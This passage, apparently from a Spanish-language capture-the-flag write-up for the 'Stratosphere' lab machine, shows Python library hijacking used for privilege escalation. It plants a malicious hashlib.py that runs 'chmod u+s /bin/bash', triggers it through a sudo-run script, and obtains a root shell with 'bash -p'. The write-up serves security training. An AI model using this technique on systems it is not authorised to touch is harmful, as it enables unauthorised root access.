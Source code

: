 ```bash
richard@stratosphere:~$ find / -name "*hashlib*" 2>/dev/null
/usr/lib/python3.5/__pycache__/hashlib.cpython-35.pyc
/usr/lib/python3.5/lib-dynload/_hashlib.cpython-35m-x86_64-linux-gnu.so
/usr/lib/python3.5/hashlib.py
/usr/lib/python2.7/lib-dynload/_hashlib.x86_64-linux-gnu.so
/usr/lib/python2.7/hashlib.py
/usr/lib/python2.7/hashlib.pyc
/usr/lib/python3.7/__pycache__/hashlib.cpython-37.pyc
/usr/lib/python3.7/lib-dynload/_hashlib.cpython-37m-x86_64-linux-gnu.so
/usr/lib/python3.7/hashlib.py
```

Una vez que hemos confirmado que el archivo se llama `hashlib.py` lo unico que tenemos que hacer es crearnos un archivo malicioso con ese nombre que contenga lo siguiente

```bash
import os

os.system("chmod u+s /bin/bash")
```

- Obtención de permisos `suid` para la bash

```bash
richard@stratosphere:~$ sudo -u root /usr/bin/python3 /home/richard/test.py
Solve: 5af003e100c80923ec04d65933d382cb
^CTraceback (most recent call last):
  File "/home/richard/test.py", line 38, in <module>
    question()
  File "/home/richard/test.py", line 6, in question
    q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
KeyboardInterrupt
```

```bash
richard@stratosphere:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

- Por ultimo hacemos lo siguiente para tener una bash con privilegios

```bash
richard@stratosphere:~$ bash -p
bash-5.0# whoami
root
```
